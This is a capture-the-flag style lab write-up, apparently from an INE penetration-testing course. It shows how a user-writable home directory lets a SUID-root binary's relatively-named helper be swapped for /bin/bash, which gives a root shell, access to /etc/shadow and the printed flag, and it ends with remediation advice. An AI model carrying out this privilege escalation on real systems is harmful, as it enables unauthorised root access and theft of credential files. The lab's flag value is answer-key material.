







# Exploiting SetUID Programs

**Classification:** Host & Network Penetration Testing / System & Host-Based Attacks<br>
**Target:** target.ine.local (web shell on port 8000, user `student`)<br>
**Objective:** Get a root shell, view `/etc/shadow` and retrieve the flag.<br>
**Flag:** `b92bcdc876d52108778e2d81f3b01494`

## 1. Executive Summary

The home directory contains a **SUID-root** binary (`welcome`) that internally runs a second
binary (`greetings`) by relative name. Because the directory is user-writable, we delete
`greetings` and replace it with `/bin/bash`; running `welcome` then executes our shell with
root's effective UID, giving a root shell to read `/etc/shadow` and the flag.

## 2. Initial Access

A `student` shell is exposed on port 8000.



## 3. Enumerating the Binaries

```bash
pwd                 # /home/student
ls -al
```

`greetings` is root-only (`-r-x------`); `welcome` is **SUID root** (`-rwsr-xr-x`).



Running them: `greetings` is denied, `welcome` works.

```bash
./greetings         # Permission denied
./welcome           # Welcome to Attack Defense Labs
```



Confirming `welcome` is a SUID ELF.

```bash
file welcome        # setuid ELF 64-bit ...
file greetings      # regular file, no read permission
```



## 4. Exploitation

`welcome` calls `greetings` by relative path. Since we can write in the directory, we delete
the real `greetings` and drop a bash copy with the same name.

```bash
rm greetings                # confirm removal of write-protected file
cp /bin/bash greetings
ls                          # greetings  welcome
```



## 5. Root Shell

Running the SUID `welcome` now executes our bash as root.

```bash
./welcome
whoami              # root
id                  # uid=0(root) gid=999(student)
```



With `uid=0` we can read `/etc/shadow` and the flag.

```bash
cd /root
cat flag
# b92bcdc876d52108778e2d81f3b01494
```



## 6. Remediation Recommendations

1. **Avoid relative paths in SUID binaries** — call helpers by absolute path and sanitise
   `PATH`/environment.
2. **Drop privileges** (`setuid`/`setgid` to the real user) before invoking `system()`/exec.
3. **Restrict directory permissions** so unprivileged users can't replace files referenced
   by privileged programs.
4. **Audit and minimise SUID-root binaries** on the system.
